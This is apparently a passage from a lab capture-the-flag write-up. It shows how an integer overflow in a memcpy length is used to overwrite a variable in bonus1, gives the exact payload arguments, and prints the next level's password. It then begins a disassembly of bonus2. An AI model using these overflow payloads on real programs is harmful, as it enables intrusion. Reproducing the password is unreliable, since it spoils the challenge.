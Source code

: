 Now to really determine how big of a string we want to copy. Through some trials I observed the overflow wraps around the `MIN_INT / 4 - n` like so. As we can see, every digit we deduct from MIN_INT, we will deduct 4 from MAX_INT in the output.
When we try `MIN_INT / 2` however, the behaviour changes
```
MIN_INT / 4 - 1 -> MAX_INT - 3
MIN_INT / 4 - 2 -> MAX_INT - 7
MIN_INT / 4 - 3 -> MAX_INT - 11
MIN_INT / 4 - 4 -> MAX_INT - 15
...
...

MIN_INT / 2 -> 0
MIN_INT / 2 + 1 -> 4
MIN_INT / 2 + 2 -> 8
MIN_INT / 2 + 3 -> 12
```
We can use this to slowly adjust our memcpy length to at 64 bytes, which our input needs to be `MIN_INT / 2 + 16` or `
```
-1073741808 `python -c "print 'B' * 41"`
```

As we can see, we successfully overwritten `atoi_res` to our dummy input. Now we have to overwrite it with the desired input which is `0x574f4c46`.
![image](https://hackmd.io/_uploads/BkOytszLa.png)

After changing the input to the one below, 
```
-1073741808 `python -c "print 'B' * 40 + '\x57\x4f\x4c\x46'[::-1]"`
```

We are able to get the password for the next level`579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245`

![image](https://hackmd.io/_uploads/Hkq1qiMUa.png)

## bonus2
Below is the objdump for bonus2
```
08048484 <greetuser>:
 8048484:       55                      push   ebp
 8048485:       89 e5                   mov    ebp,esp
 8048487:       83 ec 58                sub    esp,0x58
 804848a:       a1 88 99 04 08          mov    eax,ds:0x8049988
 804848f:       83 f8 01                cmp    eax,0x1
 8048492:       74 26                   je     80484ba <greetuser+0x36>
 8048494:       83 f8 02                cmp    eax,0x2
 8048497:       74 50                   je     80484e9 <greetuser+0x65>
 8048499:       85 c0                   test   eax,eax
 804849b:       75 6d                   jne    804850a <greetuser+0x86>
 804849d:       ba 10 87 04 08          mov    edx,0x8048710
 80484a2:       8d 45 b8                lea    eax,[ebp-0x48]
 80484a5:       8b 0a                   mov    ecx,DWORD PTR [edx]
 80484a7:       89 08                   mov    DWORD PTR [eax],ecx
 80484a9:       0f b7 4a 04             movzx  ecx,WORD PTR [edx+0x4]
 80484ad:       66 89 48 04             mov    WORD PTR [eax+0x4],cx
 80484b1:       0f b6 52 06             movzx  edx,BYTE PTR [edx+0x6]
 80484b5:       88 50 06                mov    BYTE PTR [eax+0x6],dl
 80484b8:       eb 50                   jmp    804850a <greetuser+0x86>
 80484ba:       ba 17 87 04 08          mov    edx,0x8048717
 80484bf:       8d 45 b8                lea    eax,[ebp-0x48]
 80484c2:       8b 0a                   mov    ecx,DWORD PTR [edx]
 80484c4:       89 08                   mov    DWORD PTR [eax],ecx
 80484c6:       8b 4a 04                mov    ecx,DWORD PTR [edx+0x4]
```